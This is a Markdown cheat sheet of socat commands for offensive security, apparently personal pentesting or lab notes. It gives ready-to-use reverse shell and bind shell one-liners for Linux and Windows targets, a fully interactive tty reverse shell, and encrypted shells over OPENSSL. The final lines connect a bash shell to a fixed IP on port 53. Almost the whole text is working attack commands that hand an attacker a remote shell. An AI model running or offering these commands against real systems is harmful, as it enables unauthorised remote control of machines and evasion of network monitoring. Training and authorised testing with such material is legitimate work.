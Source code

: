 # Socat

## Reverse Shells

Syntax for basic reverse shell listener:

`socat TCP-L:<PORT> -`

- takes two points (listening port and standard input) and connects them
- equivalent to `nc -nvlp <PORT>`

- On Windows, use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

- "pipes" option is used to force powershell to use Unix style STDIN and STDOUT

- Linux target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind Shells

- On Linux target:

`socat TCP-L:<PORT> EXEC:"bash -li"`

- On Windows target:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

- Command on attacking machine to connect:

`socat TCP:<TARGET_IP> -`

## `tty` reverse shell

Fully stable

Only works on Linux target

- Listener syntax:

`socat TCP-L:<PORT> FILE:``tty``,raw,echo=0`

- Listener can be connected w/ any payload
- Must be activated w/ a very specific socat command
	- target must have socat installed
	- upload a precompiled socat binary

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

>[!NOTE]
>If not working well, add -d -d into the command for more verbosity

# Socat Encrypted Shells

Anytime `TCP` is used, replace with `OPENSSL`

- Generate a certificate on attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

- Creates a 2048 bit RSA key w/ matching cert file, self-signed, and valid for under a year
- Info can be left blank
- Merge two create files into a `.pem` file:

`cat shell.key shell.crt > shell.pem`

- When setting up reverse shell, use:

`socat OPENSSL:<LOCAL_IP>:<LOCAL_PORT>,verify=0 EXEC:/bin/bash`

- For __bind shell__:

Target:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`socat OPENSSL:<TARGET_IP>:<TARGET_PORT>,verify=0 -`

`socat OPENSSL-LISTEN:53 FILE:tty,raw,echo=0,cert=encrypt.pem,verify=0`

`socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`


